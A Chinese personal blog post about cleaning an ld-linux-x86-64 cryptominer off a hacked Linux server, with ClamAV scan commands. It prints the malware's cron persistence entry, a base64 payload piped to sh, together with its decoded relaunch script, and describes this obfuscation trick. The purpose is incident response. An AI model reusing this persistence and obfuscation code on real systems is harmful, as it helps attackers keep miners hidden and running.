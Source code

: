 ```yaml
---
title: ld-linux-x86-64 Linux矿机病毒
poc: true
categories:
  - [信息安全, 二进制]
  - [杂谈]
tags: [服务器, 病毒, 挖矿]
id: '6'
date: 2021-03-27 17:53:57
---
```


之前的站点被sql注入然后提权了,服务器直接失联,同时还被删库了...

谨以此文记录

## 事发背景

笔者部署了一个自动健康打卡程序(我只是GitHub的搬运工(doge))突然不打卡了,然后ssh上去看看情况,结果发现ssh上不去了,整个服务器直接失联,人都傻了

直接重装服务器也并非一个明智的选择,因为所有备份数据需要ftp/ssh连上去服务器才可以开展

姑且先尝试在阿里云后台点击服务器关机,结果关都关不了,无奈之下选择强制关机,然后重新开机,成功连接ssh(后续发现数据库文件已损坏)

进去shell之后直接输入`top`命令

看到了一个可疑进程占用率极高,而且在不断攀升,不一会就变成了90%+

通过搜索进程名(ld-linux-x86-64)发现是个挖矿病毒

# 病毒细节

搜了一下发现变种比较多，这里讲一种个人感觉比较有意思的变种,说不定可以用来出一道密码学签到题23333

大致思路为:利用管道符加密，解密病毒脚本

```
echo "something encrypted by base64"  base64 -di  sh
```

echo的内容即为脚本病毒核心内容经base64加密(当然,也可以换成其他加密方式)后的字符串

# 杀毒

病毒的变种比较多,网上有的文章是test用户下的文件是病毒的核心文件(test用户是攻击者提权之后创建的),而有的是mysql用户,方法不一,最终笔者找到了一个泛用性较好的方法

在搜索的过程中,笔者首次了解到ClamAV这款Linux端开源杀毒软件，于是尝试使用其进行杀毒

```
#!/bin/sh
#CentOS 8.2
sudo dnf --enablerepo=extras install epel-release
sudo dnf update -y
yum install clamd -y
freshclam
service clamd start
chkconfig clamd on
clamscan -r / --move=/tmp
```

然后就会开始全盘扫描

上述代码中,最后一行的`/`是扫描的目录范围，`--move`选项是移至隔离区

扫描出来3个被感染的文件

删除之后问题仍然存在,说明有个进程会监听并拉起病毒程序,经网上文章提示,查看了一下crontab任务清单

`crontab -l`

发现可疑进程,每1分钟执行一次,内容如下

```
#!/usr/bin/env bash

echo 'IyEvYmluL3NoCmlmIHRlc3QgLXIgL3NiaW4vaW5pdGN0MTsgdGhlbgpwaWQ9JChjYXQgL3NiaW4v
aW5pdGN0MSkKaWYgJChraWxsIC1DSExEICRwaWQgPi9kZXYvbnVsbCAyPiYxKQp0aGVuCnNsZWVw
IDEKZWxzZQpjZCAvc2JpbgouL21rZTNmcyAmPi9kZXYvbnVsbApleGl0IDAKZmkKZmkK'  base64 -di  sh
```

base64解密后内容

```
#!/bin/sh
if test -r /sbin/initct1; then
pid=$(cat /sbin/initct1)
if $(kill -CHLD $pid >/dev/null 2>&1)
then
sleep 1
else
cd /sbin
./mke3fs &>/dev/null
exit 0
fi
fi
```

删除该用户的所有crontab,然后再次全盘扫描即可

但是攻击方究竟是如何注入进来的....

限于目前笔者水平,看不懂Linux网络日志emmmm,只好作罢